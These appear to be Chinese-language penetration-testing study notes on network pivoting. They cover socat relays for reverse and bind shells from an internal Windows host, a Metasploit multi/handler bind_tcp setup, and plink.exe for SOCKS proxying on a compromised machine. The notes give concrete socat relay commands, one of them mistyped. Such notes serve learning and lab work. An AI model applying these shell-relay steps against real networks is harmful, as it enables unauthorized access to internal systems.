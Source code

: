 第二种转发方式：利用反向shell进行socat重定向 
前提是 能跟 内网window建立链接 并且能通过rdp等多种手段执行他们的powershell
这个前提条件比较苛刻在哪里？主要是在windwo的命令中需要提取出来对windwo有益的部分 



什么事 socat 呢？
双向中继工具 且可在独立网络通道间创建管道套接字，无需使用ssh 隧道的工具内容 开创独立的隧道 
可以监听 也可以转发  
在 枢纽机上启动socat监听 端口 
https://www.redhat.com/en/blog/getting-started-socat
socat 的监听端口 可以代替 netstatnc 进行转发等机制 
其中我们需要借助这个工具来做到，牵线搭桥的目的，从而导致另一端链接的侦听端口信息 转发到 一段的端口号上 进行反向链接  目的地址是 攻击机的目的地址  ，源地址是在本机（枢纽机）开放端口8080 提供链接 
问题 ：为什么提供fork 呢 ？
答案 ：
![[Pasted image 20241107105235.png]]
fork 决定了  在接受链接的时候 socat 创建一个新的进程来处理这个链接 ，而并不会关闭当前进程处理新的连接内容，
如果fork不存在的话 会导致 各种进程串行在这里排列，并进行解析

命令如下：
在枢纽机执行 也就是ssh所在的机器中执行这个
`socat TCP4-LISTEN:8080,fork,TCP4：ip地址：80`

![[Pasted image 20241107104920.png]]
注意 因为枢纽机 中可能不止这一条隧道搭建，所以的话尽量采用并行而不是串行的机会

### 利用bind shell 进行socat重定向 （仍需要跟window取得交互）
socat 的绑定的shell重定向器  
bind tcp是可以不用rdp链接到window直接 重定向到主机上的 
无需跟 widowrdp建立链接就可直接借助 metasploit 来获取反弹shell的 隧道搭建陈工 

总结 bind 的造成的shell链接具有如下的特点：
1 bind 的链接是 无需连接到window的系统 只需要把.exe程序放到枢纽机上 即可 

![[Pasted image 20241107144437.png]]
在创建完毕后 此时的 LPORT 也就是反伤shell的端口为 目的主机中 window的端口号即为 8443的端口号内容  因为是创建的bind的 即为重定向 自动搜索并自己执行，这时候创建的exe程序不要直接发送到枢纽机而是放到本地机器上 
然后
ssh到端口机中`socat TCP4-LISTEN:8012,fork TCP4:172.16.5.19:8443`
利用socat建立隧道 后 然后再次进行rdp 链接并且将payload触发   后反弹链接回主机 
此时主机在msf中开启 multi/handler监听  并且设置payloads 为bind_tcp的形式 并且 将RHOST列为 枢纽机的ip地址 LPORT 定为此时之前的8012端口  
这是打开攻击机跟枢纽机的双向地址 
发送payload 并连接是打开后面第二条路的通道 

前提是 ：有rdp连接到 内网window的方式 或者是有 配置枢纽机路由表连接到 内网windwo的方法 
在window上被动触发后 达成目标


### windows版本的ssh ：plink.exe
此版本下载链接如下：https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
Puttylink 缩写为 Plink  window命令行独有的ssh工具 安装后提供  效果同ssh  
可以创建动态端口转发跟SOCK5代理  
window通常 需要自行安装的连接到其他主机的端口是 PUTTY   
、
场景预设 ：在我们获取了windwo的权限后 快速枚举并且安全态势 并确认主机适度锁定的时候，将其违枢纽点 ，不可能靶自己工具传输 而是找现有的工具，此时 putty就发挥了他特定的效果 
